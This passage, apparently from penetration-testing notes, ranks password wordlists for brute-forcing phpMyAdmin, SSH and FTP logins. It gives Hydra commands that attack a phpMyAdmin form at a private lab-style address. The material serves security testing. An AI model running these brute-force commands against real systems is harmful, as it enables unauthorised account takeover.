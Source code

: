 ## 7. Recommended Wordlists by Attack Scenario

### For phpMyAdmin Brute Force

1. **First Try** (Quick Check):
   - `/usr/share/seclists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt`
   - `/usr/share/seclists/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt`
   - `/usr/share/wordlists/fasttrack.txt`

2. **Second Try** (Common Passwords):
   - `/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt`
   - `/usr/share/seclists/Passwords/Common-Credentials/best1050.txt`

3. **Third Try** (More Comprehensive):
   - `/usr/share/wordlists/rockyou.txt` (most common)
   - `/usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt`

4. **Last Resort** (Targeted):
   - Custom wordlist generated with CeWL from the target website
   - Custom wordlist generated with CUPP based on organization information

### For SSH Brute Force

1. **First Try** (Quick Check):
   - `/usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt`
   - `/usr/share/seclists/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt`
   - `/usr/share/wordlists/fasttrack.txt`

2. **Second Try** (Common Passwords):
   - `/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt`
   - `/usr/share/seclists/Passwords/Common-Credentials/best1050.txt`

3. **Third Try** (More Comprehensive):
   - `/usr/share/wordlists/rockyou.txt`
   - `/usr/share/seclists/Passwords/probable-v2-top12000.txt`

### For FTP Brute Force

1. **First Try** (Quick Check):
   - `/usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt`
   - `/usr/share/wordlists/fasttrack.txt`

2. **Second Try** (Common Passwords):
   - `/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt`

3. **Third Try** (More Comprehensive):
   - `/usr/share/wordlists/rockyou.txt`

## 8. Command Examples for Different Wordlists

### Hydra with Different Wordlists for phpMyAdmin

```bash
# Default MySQL credentials
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt 192.168.74.162 http-post-form "/phpMyAdmin/index.php:username=^USER^&password=^PASS^:F=error"

# Top 1000 common passwords
hydra -l root -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt 192.168.74.162 http-post-form "/phpMyAdmin/index.php:username=^USER^&password=^PASS^:F=error"

# Fasttrack wordlist (small but effective)
hydra -l root -P /usr/share/wordlists/fasttrack.txt 192.168.74.162 http-post-form "/phpMyAdmin/index.php:username=^USER^&password=^PASS^:F=error"

```
